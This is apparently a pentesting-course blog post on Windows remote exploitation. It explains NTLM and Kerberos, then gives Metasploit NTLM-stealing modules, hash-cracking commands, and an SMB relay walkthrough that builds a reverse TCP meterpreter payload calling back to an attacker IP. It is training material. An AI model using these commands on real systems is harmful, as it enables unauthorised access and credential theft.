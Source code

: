 ```yaml
---
layout: post
published: true
title: Windows Exploitation 11.2
tags:
  - PWP
  - Intermediate
  - Windows Exploitation
comments: true
---
```

## Windows Remote Exploitation


## Introduction


**_In this blog post, we will learn the Windows Remote Exploitation Techniques and Approaches to engage with a target.
We will also look for examples and usage of tools._**

_Some Approaches we have already discussed in Linux exploitation modules_


**Lower Hanging Fruits**

**We have discussed Low Hanging Fruits Approaches in Linux Exploitation module, the approach is also same for windows, please have a look on that blog post .**
[https://mrw0r57.github.io/2020-05-30-linux-exploitation-9-1/]


**Remote Exploitation of Windows Network**

The exploitation process in which attackers exploit's listening services on the target network and tries to get access to the target system.




**Windows Authentication**

Windows uses two types of authentication protocols for clients and server authentication, NTLM and Kerberos.


**NTLM**

NTLM(New Technology LAN Manager) is the authentication protocol used on networks that include systems running the Windows operating system and on stand-alone systems.

**How NTLM Works?**

1.  A user accesses a client computer and provides a domain name, user name, and password. The client computes a cryptographic hash of the password and discards the actual password.

2.  The client sends the username to the server to authenticate itself.

3.  Then the server generates a 16-byte random number, called a challenge or nonce, and sends it to the requested client.

4.  After that client encrypts this challenge with the hash of the user's password and sends the response of the result to the server. 

5.  Then the server sends, user name, challenge sent to the client, the response received from the client, to the domain controller(Authentication Server).

6.  The domain controller uses the user name to retrieve the hash of the user's password from the SAM (Security Account Manager) database. It uses this password hash to encrypt the challenge.

7.  Then DC compares the encrypted challenge it computed (in step 6) to the response computed by the client (in step 4). If they are identical, authentication is successful for the client system.

[Check For More](https://en.wikipedia.org/wiki/NT_LAN_Manager#NTLMv2)
[LM/NT hashes](http://www.adshotgyan.com/2012/02/lm-hash-and-nt-hash.html)

**Kerberos**

Windows domains use Kerberos as the underlying protocol for SSO. A user can log on to the domain at the beginning of the workday, and the system uses the same credentials to access any resources in the domain.
Kerberos is also used by Unix systems nowadays


**How Kerberos Works?**

1.  A user accesses a client computer sends an authentication request to the Kerberos server including user login ID.

2.  The authentication server reply including encrypted symmetric key and time-stamped ticket-granting ticket (TGT)

3.  Then the client sends a network authentication request including TGT and name of the target server, for example, MS Active Directory.

4.  After that Kerberos server reply including session ticket for use with the target server

5.  The client presents a time-stamped session ticket to the target server as the authentication

6.  Finally, the target server provides authentication back to the client.

Authentication Successful!!

[Check For More](https://en.wikipedia.org/wiki/Kerberos_%28protocol%29)

**[Also have a look at Windows Security Identifiers (SID)](https://support.microsoft.com/en-us/help/243330/well-known-security-identifiers-in-windows-operating-systems)** Important.



**Some NTLM Stealing Metasploit Modules** 


auxiliary/admin/mssql/mssql_ntlm_stealer

``
auxiliary/admin/mssql/mssql_ntlm_stealer
``

Oracle SMB Relay Code Execution

``
auxiliary/admin/oracle/ora_ntlm_stealer
``

Host Information Enumeration via NTLM Authentication

``
auxiliary/scanner/http/ntlm_info_enumeration
``

SMTP NTLM Domain Extraction

``
auxiliary/scanner/smtp/smtp_ntlm_domain 
``

**WinRM Login Utility**

This module attempts to authenticate to a WinRM service.

``
auxiliary/scanner/winrm/winrm_login
``

**To crack NTLM hash **

There are many techniques to crack NTLM hash


John Hashes Formats [http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats]

``
john --format=netlm hashpwd_netntlm
``

**Using Rainbow Tables To Crack Hash**

rcracki_mt

[https://github.com/foreni-packages/rcracki_mt]

Download rainbow tables

[http://project-rainbowcrack.com/table.htm]
[http://ophcrack.sourceforge.net/tables.php]

``
rcracki_mt -h 1f548398f0f49ea1 -t 4 *.rti
``

* -h: It is used to specify the first 8-bytes of the LMHASH
* -t: It is the number of threads to use
* *.rti: It is the path of the downloaded rainbow tables


** Suppose if you found only half of the password**


In ''ls /usr/share/metasploit-framework/tools/password''

There is a tool also which can also use for this purpose known as ruby halflm_second.rb.

``
ruby halflm_second.rb -n 1f548398f0f49ea18e2f0dcb9562b75eaa32e75aebf1d69c -p HALFPSWD
``

To convert  the result into case sensitive password

``
perl netntlm.pl -file /root/hashpwd_netntlm -seed FULLHALFPSWD
```



**SMBRelay Attack**

Its a kind of Man in The Middle attack in which attacker relay SMB authentication requests to another host, gaining access to an authenticated SMB session if successful.


Metasploit Module for this purpose

```
msfconsole
use exploit windows/smb/smb_relay
msf5 exploit(windows/smb/smb_relay) > info
```
**Read about this module by info command on Metasploit**


Another Exploit for SMBRelay, [Click Here](https://www.exploit-db.com/exploits/7125)

**You can also use Impacket's smbrelayx.py for this purpose.**

**smbrelayx.py:** Exploit for CVE-2015-0005 using an SMB Relay Attack. If the target system is enforcing signing and a machine account was provided, the module will try to gather the SMB session key through NETLOGON.

Using Msfvenom create windows reverse TCP .exe payload in order to work with smbrelayx.py

``
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<AttackerIP> LPORT=<Port> -f exe -o hacker.exe
``

Start Metasploit Multi/handler in Attacker Machine
``
set exploit/multi/handler
``
Set the options and use smbrelayx.py


``
smbrelayx.py -h <TargetIP> -e /home/hacker.exe
``


To check and use other windows vulnerability's exploit

Run command below in msfconsole

``
show exploits windows
``



## Conclusion

**_We have discussed basic exploitation of windows systems, and we have already discussed some approaches in previous phases, 
Exploitation all depends on the previous phases of pentesting_** 
